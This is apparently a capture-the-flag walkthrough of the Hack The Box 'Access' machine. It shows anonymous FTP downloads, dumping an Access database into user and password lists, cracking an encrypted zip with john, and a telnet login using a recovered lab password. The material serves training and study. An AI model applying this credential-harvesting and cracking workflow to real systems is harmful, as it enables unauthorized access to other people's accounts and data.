

# 10 - FTP


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98]
└──╼ $ wget -m --no-passive ftp://10.10.10.98
--2021-08-06 12:46:26--  ftp://10.10.10.98/
           => ‘10.10.10.98/.listing’                                                           
Connecting to 10.10.10.98:21... connected.                                                     
Logging in as anonymous ... Logged in!
...
...
FINISHED --2021-08-06 12:46:35--
Total wall clock time: 8.6s
Downloaded: 5 files, 5.4M in 7.2s (771 KB/s)
```

--no-passive-mode is needed because the client cannot connect to the server on another port. This is how ftp works, ftp opens additional TCP connections on dynamic ports. Ftp operates in two modes for file transfers

In active mode, the client opens a TCP port and tells the server to connect to it.
In passive mode, the server opens the port and and the client connects to it.

```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp]
└──╼ $ wget -m ftp://10.10.10.98
--2021-08-06 12:44:44--  ftp://10.10.10.98/
           => ‘10.10.10.98/.listing’
Connecting to 10.10.10.98:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... couldn't connect to 0.0.0.0 port 49168: Connection refused
```
Either there is a firewall not allowing the client to connect to port 49168 or ftp server couldn't open the port in the first place.


# Files
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98]
└──╼ $ find . -type f -ls -exec file {} \;
   247192      4 -rw-r--r--   1 user     user           97 Aug  6 12:46 ./.listing
./.listing: ASCII text, with CRLF line terminators
   247194      4 -rw-r--r--   1 user     user           51 Aug  6 12:46 ./Backups/.listing
./Backups/.listing: ASCII text, with CRLF line terminators
   247195   5520 -rw-r--r--   1 user     user      5652480 Aug 23  2018 ./Backups/backup.mdb
./Backups/backup.mdb: Microsoft Access Database
   247198      4 -rw-r--r--   1 user     user           59 Aug  6 12:46 ./Engineer/.listing
./Engineer/.listing: ASCII text, with CRLF line terminators
   247199     12 -rw-r--r--   1 user     user        10870 Aug 24  2018 ./Engineer/Access\ Control.zip
./Engineer/Access Control.zip: Zip archive data, at least v2.0 to extract
```

# File is encrypted
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ unzip Access\ Control.zip 
Archive:  Access Control.zip
   skipping: Access Control.pst      unsupported compression method 99
```

Compression method 99 refers to AES encryption which is unsupported by unzip. 7z can decrypt and unzip it but we still need the key.

# backup.mdb


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $ cat shell.sh 
#!/bin/bash
for i in $(mdb-tables backup.mdb -1);
do
  if [[ $(mdb-json backup.mdb $i) ]]; then 
    echo ------ [ $i ] ------
    mdb-json backup.mdb $i | jq
  fi;
done
```
This is a very simple script to dump the whole database


# Generating username and password lists
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-schema backup.mdb  | grep -i 'create table ' | awk -F'[' '{print $2}' | sed 's/]//' > tables
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb USERINFO |jq| grep "name\|lastname" > user.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb USERINFO |jq | grep -i password | awk -F"\"" '{print $4}' > pass.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb auth_user |jq | grep -i password |awk -F"\"" '{print $4}' | sort -u  >> pass.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $ mdb-json backup.mdb auth_user |jq | grep -i username |awk -F"\"" '{print $4}' >> user.lst

```


# user.lst
```sql
John_Carter
J.Carter
John.Carter
JCarter
Mark_Smith
M.Smith
Mark.Smith
MSmith
Sunita_Rahman
S.Rahman
Sunita.Rahman
SRahman
Mary_Jones
M.Jones
Mary.Jones
MJones
Monica_Nunes
M.Nunes
Monica.Nunes
MNunes
backup_admin
admin
engineer
```


# pass.lst

```sql
020481
010101
000000
666666
123321
123321
access4u@security
admin
```


# Zip cracked
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ john hash -w=../Backups/pass.lst
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 7 candidates left, minimum 16 needed for performance.
access4u@security (Access Control.zip/Access Control.pst)
1g 0:00:00:00 DONE (2021-08-06 16:21) 50.00g/s 350.0p/s 350.0c/s 350.0C/s 020481..admin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


# Outlook folder
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ 7z x Access\ Control.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_GB.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD Ryzen 3 3100 4-Core Processor               (870F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed): access4u@security
Everything is Ok         

Size:       271360
Compressed: 10870

┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

# Security's password




# Telnet


```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access]
└──╼ $ telnet  10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password:  4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```